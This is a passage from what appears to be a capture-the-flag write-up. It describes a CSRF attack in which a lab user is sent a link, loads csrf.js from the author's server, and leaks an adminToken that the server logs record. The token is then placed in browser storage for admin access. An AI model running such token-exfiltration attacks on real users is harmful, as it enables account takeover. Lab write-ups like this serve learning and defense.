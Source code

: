 

It's important to send it as `text/plain` and not `application/json`.
I'm not 100% sure why, but a lot of writeups on bug bounties that I came
across made this switch, and it does still work at the server.

#### Exploit

I'll send a link to Larry:

![](/img/image-20220727202118391.png)

A few seconds later, there's a request for `csrf.js` at my webserver:



    10.10.11.157 - - [27/Jul/2022 23:00:30] "GET /csrf.js HTTP/1.1" 200 -



Then, a few seconds after that, the token:



    10.10.11.157 - - [27/Jul/2022 23:00:36] code 404, message File not found
    10.10.11.157 - - [27/Jul/2022 23:00:36] "GET /token?adminToken=c0b9db4c8e4bbb24d59a3aaffa8c8b83 HTTP/1.1" 404 -



## Shell as user

### Enumerate

With I'll add the `adminToken` to the local storage in Dev Tools:

![](/img/image-20220727202344018.png)
